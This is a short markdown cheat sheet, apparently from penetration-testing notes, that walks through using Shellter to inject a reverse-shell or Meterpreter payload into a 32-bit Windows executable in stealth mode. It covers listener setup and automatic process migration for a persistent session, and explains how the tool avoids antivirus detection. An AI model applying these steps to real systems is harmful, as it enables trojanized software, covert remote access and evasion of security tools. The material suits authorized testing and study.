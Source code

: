 
## Commands

```

     1010101 01   10 0100110 10     01  11001001 0011101 001001
        11      10   01 00      01     01     01    10      11   10
        0010011 1110001 11011   11     10     00    10011   011001
             11 00   10 01      11     01     11    01      01   11
        0010010 11   00 0011010 100111 000111 00    1100011 01   10 v7.2


# Shellter
sudo wine shellter.exe
automated mode (a)
Home/.../Something.exe                ---> The exe (32bits) we want to 
Stealth Mode     -> Y
Listed Payload   -> L                 ---> Select a payload shell
Wait...
[Enter]

# Attacking Machine
Set a lisenner or Meterpreter

# Target Machine
Launch the payload
```

- You need an executable to use shllter (a file witch will be used to exploit the other machine)
- Original file is in backups

- Take note that the shell session will be close after the user close the window of the installed exe. To solve this you need to migrate to an other processes
	- If you use multihandler in your shellter shell use the following to automaticly migrate the process: set AutoRunScript post/windows/manage/migrate

More information ---> https://www.youtube.com/watch?v=6xexyQwG7SY


## What is Shelter

Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can
be used in order to inject shellcode into native Windows applications
(currently 32-bit apps only). The shellcode can be something yours or something
generated through a framework, such as Metasploit.

Shellter takes advantage of the original structure of the PE file and doesn't
apply any  modification such as changing memory access permissions in sections
(unless the user wants to), adding an extra section with RWE access, and
whatever would look dodgy under an AV scan.

Shellter is not just an EPO infector that tries to find a location to insert an
instruction to redirect execution to the payload. Unlike any other infector,
Shellter’s advanced infection engine never transfers the execution flow to a
code cave or to an added section in the infected PE file.